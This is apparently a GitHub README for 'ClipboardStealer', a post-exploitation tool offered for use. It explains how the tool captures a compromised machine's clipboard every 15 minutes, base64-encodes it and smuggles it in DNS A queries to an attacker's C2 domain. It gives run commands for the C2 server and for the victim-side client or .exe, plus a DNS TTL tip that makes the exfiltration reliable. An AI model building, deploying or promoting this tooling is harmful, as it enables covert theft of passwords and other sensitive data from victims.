


# ClipboardStealer

Clipboard can contain everything from passwords to possible critical data. 
This tool is quite simple, light, and it does only one thing (so far) that is stealing whatever a compromised machine has on clipboard. it can be used post exploitation for Windows,macOS, or Linux machines
It periodically captures the contents of the clipboard, encodes the data into a DNS payload, and sends hidden in a DNS query -type A- to your C2 server. 

## Prerequisites

You can install ClipboardStealer python requirements via:

`pip3 install -r requirements.txt`

Or you can directly use clipboardHost.exe if you're targeting Windows environment

## How does it work

The code pastes whatever is in the clipboard, encodes it, splits it into small chunks and packs it in DNS record -type A- which will eventually land in your C2. Here's a breakdown of the flow:

- Clipboard contents are encoded to base64
- Encoded data is then broken into small chunks
- Each chunk is packed into a DNS query. Here's an example

Now this query will be sent through any public DNS server (I am using `8.8.8.8` in client.py) which in turn will send request to your c2 DNS server `shahin.com` 

- On your C2, query will be split and qname (payload) will be decoded and re-assembled which will eventually save stolen clipboard data in a file 

This happens every 15 minutes, it only sends data if the content is different from last time it was sent

## Usage

1. Install the required dependencies as mentioned in prerequisites

2. On your C2, run c2.py 
Don't forget to set file_path (where you want data to be saved) 

3. On compromised machine, run the program by executing the `client.py` script:
`python clipboard_sender.py 'example.com'`

Where: 
- example.com: Your C2 domain address

4. If you are using the .exe you can run it by running the following command:
`clipboardhost.exe example.com`

5. Now you're all set! it will continuously monitor the clipboard for changes and send the data in the clipboard to the C2 server every 15 minutes (Depending on the frequency the user updates his clipboard)

## Important Note

Set caching time on your DNS server (TTL) to less than the frequency of this tool (in our case 15 minutes) this will make sure that requests arrive fully to your domain server (C2) 